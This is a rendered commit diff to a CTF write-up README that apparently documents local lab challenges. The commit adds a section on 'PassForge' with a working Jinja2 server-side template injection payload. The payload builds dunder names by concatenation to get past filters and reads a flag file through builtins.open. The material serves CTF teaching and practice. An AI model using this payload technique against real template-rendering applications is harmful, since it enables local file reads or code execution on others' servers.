

Before and after one commit to AdliXSec/writeup-ctf, a Markdown page: challenge/README.md, 2 parts joined by grey strips. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
change format ctf in readme

````diff
--- a/challenge/README.md
+++ b/challenge/README.md
@@ -57,7 +57,7 @@ docker compose up --build -d
 | Nslookup    | 5001   | http://localhost:5001      | Command Injection   |
 | GaG Wiki    | 5002   | http://localhost:5002      | SQL Injection       |
 | SVG Viewer  | 8888   | http://localhost:8888      | XXE Injection       |
-| PassForge   | 8120   | http://localhost:8120      | TBD                 |
+| PassForge   | 8120   | http://localhost:8120      | SSTI Injection      |
 
 ---
 
@@ -113,6 +113,23 @@ python svg-viewer/exploit/svgviewer_exploit.py http://localhost:8888
   ```
 - **Flag:** `LEEXY{670ef0276339a9989da10a47d46a6115}`
 
+### 5. PassForge (SSTI Injection)
+- **Kerentanan:** Server-Side Template Injection pada fitur Smart Import
+- **Deskripsi:** Aplikasi memproses file CSV yang diunggah dan merender isinya menggunakan Jinja2, memungkinkan RCE atau pembacaan file lokal.
+- **Payload:**
+```python
+SSTI_PAYLOAD = (
+    "template\n"
+    '{%set a="_"%}'
+    '{%set f="/fl"%}'
+    '{%set g="ag.txt"%}'
+    '{%set bl=cycler|attr(a+a+"init"+a+a)|attr(a+a+"globals"+a+a)'
+    '|attr(a+a+"getitem"+a+a)(a+a+"builtins"+a+a)%}'
+    '{{bl|attr(a+a+"getitem"+a+a)("open")(f+g)|attr("read")()}}'
+)
+```
+- **Flag:** `LEEXY{passforge_placeholder_flag}`
+
 ---
 
 ## ⚠️ Disclaimer
````
